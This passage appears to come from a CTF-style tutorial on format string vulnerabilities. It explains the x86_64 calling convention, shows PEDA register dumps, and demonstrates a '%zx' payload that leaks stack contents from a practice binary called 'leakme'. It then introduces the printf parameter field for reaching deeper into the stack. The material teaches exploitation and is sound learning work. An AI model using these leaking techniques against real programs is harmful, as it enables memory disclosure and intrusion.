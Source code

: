 ### A brief aside about the x86_64 calling convention

```
According to the ABI, the first 6 integer or pointer arguments to a
function are passed in registers. The first is placed in rdi, the second in
rsi, the third in rdx, and then rcx, r8 and r9. Only the 7th argument and
onwards are passed on the stack.
```
[via this excellent page about it][1]

The arguments to printf are passed via the registers. This is a big difference between 32 bit (x86) and 64 bit (x86_64).

You can reconstruct what it expects the arguments to be by pulling them from PEDA:

```
RDI: 0x7fffffffe440 --> 0x7825 ('%x')
RSI: 0x796c6f48 ('Holy')
RDX: 0x0
RCX: 0x0
R8 : 0x7ffff7fef4c0 (0x00007ffff7fef4c0)
R9 : 0x7ffff7fef4c0 (0x00007ffff7fef4c0)
```

So what happens if our format string has 7 consecutive locations?

```
# quit gdb for a sec
./leakme
Give me something to say:
%zx.%zx.%zx.%zx.%zx.%zx.%zx.
Holy 796c6f48.0.0.7ffff7fef4c0.7ffff7fef4c0.2e787a252e787a25.2e787a252e787a25., Batman!
```

Hmm. Those look awfully familiar, don't they? But what are those things on the end? Well, we can convert them to ascii....

```
python
>>> s = '2e787a252e787a25'
>>> s.decode('hex')
'.xz%.xz%'
# it's backward because of endianess.
```

Aha! It's the buffer that contains our format string, which is a stack-allocated variable. So it looks like the 6th format string item is the first thing that we read on the stack.

### The parameter field (how we get things based on a number)

But there's a problem! The thing we want is really far down the stack, and our buffer is not that big.

So we need to somehow specify where on the stack we want to reach. Luckily, format strings have this: it's called the [parameter field](https://en.wikipedia.org/wiki/Printf_format_string#Parameter_field).


[1]: https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
[2]: http://ctf.sigpwny.com